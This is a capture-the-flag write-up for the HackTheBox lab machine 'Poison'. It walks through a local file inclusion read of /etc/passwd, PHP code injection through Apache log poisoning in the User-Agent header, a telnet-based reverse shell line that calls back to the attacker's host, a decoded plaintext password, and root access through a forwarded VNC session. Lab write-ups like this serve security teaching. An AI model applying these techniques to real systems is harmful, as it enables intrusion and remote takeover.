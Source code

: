 ![](http://vedanttare.com/wp-content/uploads/2022/04/Screenshot-2022-09-25-at-2.25.58-PM.png)

IP: 10.10.10.84

## Enumeration

After doing a simple nmap scan: `sudo nmap -sC -sV -O -p- -oA nmap/poison 10.10.10.84`, we get,

Ports open:

- 22/ssh
- 80/http

Checking the webpage on port 80, we could see that we could run some php files and display them such as ini.php or phpinfo.php.

![](http://vedanttare.com/wp-content/uploads/2022/04/php-file-image-poison.png)

The files were displayed and the URL was: `http:///browse.php?file=phpinfo.php`. So, what this was probably doing is that the browse.php file probably had some php code which is used to ‘GET’ other files by specifying the file parameter. Trying for LFI: `…….?file=../../../../etc/passwd`, we were displayed with the `/etc/passwd` file, we got LFI.

![](http://vedanttare.com/wp-content/uploads/2022/04/etcpasswd-file-img.png)

Now we wanted and rce, and as the name of the box goes which is poison, I got 2 things in mind, one was web cache poisoning(not so relevant here) and the other was log file poisoning. To get an rce we need to call and see the log file first, and for that we need to know the location of the log file on the server. I tried the normal location for log file on apache web server: `/var/log/httpd/access.log` but no luck.

Then I tried to search on google for file paths for apache24 and I got the apache documentation which had the path to the configuration file which was a banger as we could see all paths from the config file.

Check the config file and got the location of log file: `/var/log/httpd-access.log`

![](http://vedanttare.com/wp-content/uploads/2022/04/conf-file-with-log-file.png)

Now finally, we navigate to the log file and get,

![](http://vedanttare.com/wp-content/uploads/2022/04/log-file.png)

## Exploitation

### Log file Poisoning

To get rce we need to use a technique called log file poisoining in which we embed some code in the request header of the log file and successfully execute that code.

Embedding some php code in the User-agent header in the request.

`GET /browse.php?file=/var/log/httpd-access.log HTTP/1.1<br></br>Host: 10.10.10.84<br></br>User-Agent: Mozilla/5.0 Gecko/20100101 Firefox/68.0<br></br>Accept: text/html,application/xhtml+xml,application/xml;q=0.9,<em>/</em>;q=0.8<br></br>Accept-Language: en-US,en;q=0.5<br></br>Accept-Encoding: gzip, deflate<br></br>Connection: close<br></br>Upgrade-Insecure-Requests: 1`

**—–Output——–**

10.10.14.6 – – \[11/Oct/2020:16:25:58 +0200\] “GET /browse.php?file=/var/log/httpd-access.log HTTP/1.1” 200 2234 “-” “Mozilla/5.0 total 72  
drwxr-xr-x 2 root wheel 512 Mar 19 2018 .  
drwxr-xr-x 6 root wheel 512 Jan 24 2018 ..  
-rw-r–r– 1 root wheel 33 Jan 24 2018 browse.php  
-rw-r–r– 1 root wheel 289 Jan 24 2018 index.php  
-rw-r–r– 1 root wheel 27 Jan 24 2018 info.php  
-rw-r–r– 1 root wheel 33 Jan 24 2018 ini.php  
-rw-r–r– 1 root wheel 90 Jan 24 2018 listfiles.php  
-rw-r–r– 1 root wheel 20 Jan 24 2018 phpinfo.php  
-rw-r–r– 1 root wheel 1267 Mar 19 2018 pwdbackup.txt

We had code execution. Now, we just to use a simple payload to get a reverse shell.

Our reverse shell payload will be,

![](http://vedanttare.com/wp-content/uploads/2022/04/rev-shell-payload.png)

And the code execution,

![](http://vedanttare.com/wp-content/uploads/2022/04/code-execution.png)

………………………….  
……………………………  
…………………………..  
User-Agent: Mozilla/5.0 &amp;1|telnet 10.10.14.6 9001 clear &gt; /tmp/f’); ?&gt; Gecko/20100101 Firefox/68.0

After setting up a listener on our kali machine, we get a reverse shell!

![](http://vedanttare.com/wp-content/uploads/2022/04/rev-shell.png)

## Privilege Escalation

We have got a shell as `www` and we need to get root by passing a user charix.There was a file pwdbackup.txt which had base64 encoded string in it which was encoded 13 times.

![](http://vedanttare.com/wp-content/uploads/2022/04/pwdbackup13.png)

So we had to base64 decode this file 13 times. To do this we used:

`for i in $(seq 1 13); do echo -n ‘ | base64 -d’; done`  
–&gt; What this does is that it just print ‘| base64 -d’ 13 times

Then we copy the string in a file and just decode it using our ‘| base64 -d’:  
`cat passwd | base64 -d | base64 -d | base64 -d |……………………………………………….`

And we get a password:  
`kali@starscorp1o  ~/htb/boxes/poison  cat password | base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d`

`password: Charix!2#4%6&8(0`

Using this password to ssh into the machine as the user charix.

Now we to get root.

There is a zip file that we found in /home/charix called secret.zip. Transferring that to our kali machine and then unzipping it using the password from the base64 decoded string we get some non-ASCII characters which we will use later.

Checking the services:

We can see that there is a vnc process running as root.

![](http://vedanttare.com/wp-content/uploads/2022/04/vnc-root.png)

Checking if any other ports are open locally:

`netstat -a | grep LIST`

`Active Internet connections (including servers)<br></br>Proto Recv-Q Send-Q Local Address Foreign Address (state)<br></br>tcp4 0 0 10.10.10.84.37093 10.10.14.6.9000 ESTABLISHED<br></br>tcp4 0 0 10.10.10.84.http 10.10.14.6.49062 CLOSE_WAIT<br></br>tcp4 0 0 localhost.smtp <em>.</em> LISTEN<br></br>tcp4 0 0 *.http *.* LISTEN<br></br>tcp6 0 0 *.http *.* LISTEN<br></br>tcp4 0 0 *.ssh *.* LISTEN<br></br>tcp6 0 0 *.ssh *.* LISTEN<br></br>tcp4 0 0 localhost.5801 <em>.</em> LISTEN<br></br>tcp4 0 0 localhost.5901 <em>.</em> LISTEN<br></br>udp4 0 0 *.syslog *.*<br></br>udp6 0 0 *.syslog *.*`

![](http://vedanttare.com/wp-content/uploads/2022/04/local-ports-open.png)

Services running:

![](http://vedanttare.com/wp-content/uploads/2022/04/services.png)

We could see that there are 2 ports are open and they are vnc ports, and we also have a vnc service running as root!

Using ssh port forwarding to tunnel the traffic over ssh:

`ssh -L 5901:127.0.0.1:5901 charix@10.10.10.84 (on kali machine)`

Checking the browser we have nothing. Using vncviewer to view the vnc program on the ports and supplying the password from the secret.zip file:

`kali@starscorp1o  ~/htb/boxes/poison  vncviewer -passwd secret 127.0.0.1::5901<br></br>Connected to RFB server, using protocol version 3.8<br></br>Enabling TightVNC protocol extensions<br></br>Performing standard VNC authentication<br></br>Authentication successful<br></br>Desktop name "root's X desktop (Poison:1)"<br></br>VNC server default format:<br></br>32 bits per pixel.<br></br>Least significant byte first in each pixel.<br></br>True colour: max red 255 green 255 blue 255, shift red 16 green 8 blue 0<br></br>Using default colormap which is TrueColor. Pixel format:<br></br>32 bits per pixel.`

The vnc gui/program opens up and we see that it is running as root!

![](http://vedanttare.com/wp-content/uploads/2022/04/vnc-running-root.png)

And hence we are root and from there we can grab the root flag.

Check out my previous post:

<figure class="wp-block-embed is-type-wp-embed is-provider-vedant-tare wp-block-embed-vedant-tare"><div class="wp-block-embed__wrapper">> [Hackthebox – Bounty](https://vedanttare.com/hackthebox-bounty/)

<iframe class="wp-embedded-content" data-secret="upnPXrMebN" frameborder="0" height="338" marginheight="0" marginwidth="0" sandbox="allow-scripts" scrolling="no" security="restricted" src="https://vedanttare.com/hackthebox-bounty/embed/#?secret=ui6EPK1IWL#?secret=upnPXrMebN" style="position: absolute; clip: rect(1px, 1px, 1px, 1px);" title="“Hackthebox – Bounty” — VEDANT TARE" width="600"></iframe></div></figure>
